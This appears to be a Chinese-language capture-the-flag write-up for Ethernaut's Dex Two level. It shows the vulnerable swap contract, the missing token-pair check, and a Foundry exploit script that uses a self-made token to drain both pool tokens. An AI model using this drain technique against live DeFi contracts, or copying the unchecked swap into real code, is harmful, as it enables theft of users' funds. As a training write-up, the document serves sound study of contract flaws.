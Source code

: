 # Level 23 - Dex Two
## 題目
[Dex Two](https://ethernaut.openzeppelin.com/level/0xf59112032D54862E199626F55cFad4F8a3b0Fce9)

### 通關條件
This level will ask you to break DexTwo, a subtlely modified Dex contract from the previous level, in a different way.
You need to drain all balances of token1 and token2 from the DexTwo contract to succeed in this level.
You will still start with 10 tokens of token1 and 10 of token2. The DEX contract still starts with 100 of each token.

### 提示
How has the swap method been modified?

### 合約內容
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import "openzeppelin-contracts-08/access/Ownable.sol";

contract DexTwo is Ownable {
    address public token1;
    address public token2;

    constructor() {}

    function setTokens(address _token1, address _token2) public onlyOwner {
        token1 = _token1;
        token2 = _token2;
    }

    function add_liquidity(address token_address, uint256 amount) public onlyOwner {
        IERC20(token_address).transferFrom(msg.sender, address(this), amount);
    }

    function swap(address from, address to, uint256 amount) public {
        require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
        uint256 swapAmount = getSwapAmount(from, to, amount);
        IERC20(from).transferFrom(msg.sender, address(this), amount);
        IERC20(to).approve(address(this), swapAmount);
        IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
    }

    function getSwapAmount(address from, address to, uint256 amount) public view returns (uint256) {
        return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
    }

    function approve(address spender, uint256 amount) public {
        SwappableTokenTwo(token1).approve(msg.sender, spender, amount);
        SwappableTokenTwo(token2).approve(msg.sender, spender, amount);
    }

    function balanceOf(address token, address account) public view returns (uint256) {
        return IERC20(token).balanceOf(account);
    }
}

contract SwappableTokenTwo is ERC20 {
    address private _dex;

    constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply)
        ERC20(name, symbol)
    {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
    }

    function approve(address owner, address spender, uint256 amount) public {
        require(owner != _dex, "InvalidApprover");
        super._approve(owner, spender, amount);
    }
}
```
## 解題
提示說看 `swap(address from, address to, uint256 amount)` 跟上一關的有什麼不一樣：

Dex2：
```solidity
function swap(address from, address to, uint256 amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint256 swapAmount = getSwapAmount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
}

function getSwapAmount(address from, address to, uint256 amount) public view returns (uint256) {
    return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
}
```
[Level 22 - Dex](https://hackmd.io/@D13/ethernaut22)：
```solidity
function swap(address from, address to, uint256 amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint256 swapAmount = getSwapPrice(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
}

function getSwapPrice(address from, address to, uint256 amount) public view returns (uint256) {
    return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
}
```

兩關的合約在計算價格的方式是一樣的，不一樣的只有這關少一個「條件判斷」；代表可以將不屬於這題的代幣用來交易。這樣就很簡單了，我們只要用別的代幣把 token1 跟 token2 都換出來就好了。
 $$  Amount(token2) = \frac{Amount(token1) * Balance(token2)}{Balance(token1)} $$
 
按照價格公式來看的話，我們只要先給關卡 1 枚我們自建的代幣，再用 1 枚就可以換出 token2 的 100 枚，因為 可以換出的 token2 數量 = 轉進去的 token1 數量 * 關卡中 token2 的數量 / 關卡中 token1 的數量，也就是：`換出 100 枚 = 1 * 100 / 1`。
換完後關卡中有 2 枚，套用上面的思路，只要再給 2 枚就可以將 token1 的 100 枚也換出來，整理攻擊流程：
1. 建立自己的代幣
2. 給關卡 1 枚自己的代幣
3. 用 1 枚自己的代幣，將 token2 全數換出
4. 用 1 枚自己的代幣，將 token1 全數換出
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "../src/Ethernaut Challenge/23_Dex2.sol";
import "openzeppelin-contracts/token/ERC20/ERC20.sol";

contract ExploitScript is Script {
    DexTwo level23 = DexTwo(payable(your_challenge_address));
    TokenToken tokentoken;

    function run() external {
        vm.startBroadcast();
        
        tokentoken = new TokenToken();
        tokentoken.transfer(address(level23),1);
        tokentoken.approve(address(level23),4);
        address token1 = level23.token1();
        address token2 = level23.token2();
        level23.swap(address(tokentoken), token2, 1);
        level23.swap(address(tokentoken), token1, 2);

        vm.stopBroadcast();
    }
}

contract TokenToken is ERC20 {
    
    constructor() ERC20("TokenToken", "TkTk") public {
        _mint(msg.sender, 4);
    }
}
```